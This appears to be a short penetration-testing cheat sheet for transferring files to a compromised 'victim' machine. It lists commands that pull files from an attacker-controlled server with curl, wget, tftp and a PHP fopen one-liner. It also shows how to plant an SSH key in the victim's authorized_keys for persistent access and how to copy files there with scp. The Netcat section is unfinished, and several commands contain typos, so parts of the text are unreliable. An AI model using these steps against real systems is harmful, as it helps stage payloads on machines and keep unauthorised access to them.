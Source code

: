 #### Python simple HTTPServer
***python -m SimpleHTTPServer [port]

##### curl
curl -O http://[my_server_ip:port]/fileName

##### wget
wget http://[my_server_ip:port]/fileName

##### tftp
tftp [my_server_ip]
tftp > get myFile
OR
tftp [my_server_ip] <<< "get file"

##### php
echo "<?php file_put_contents('nameOfFile', fopen('http://[my_server_ip:port/fileName', 'r')); ?>" file_one_server.php

#### SSH-SCP
***ssh key generation flow***
- ssh-keygen -t rsa -C "your@email.com"
- add *.pub public key to auhorized_keys on victim server
- echo "ssh-rsa ASD3NbN[..]vlldor..." > authorized_keys
- log in ssh -i private_key [name]@[victim_machine_ip] -p [port]

###### SCP
***copy file***
scp /your/file/path.ext [name]@[victim_server_ip]:/your/file/destination/path.ext
***copy dir***
scrp -r /your/dir/path [name]@[victim_server_ip]:/your/dir/destination/path

#### Netcat
# TODO
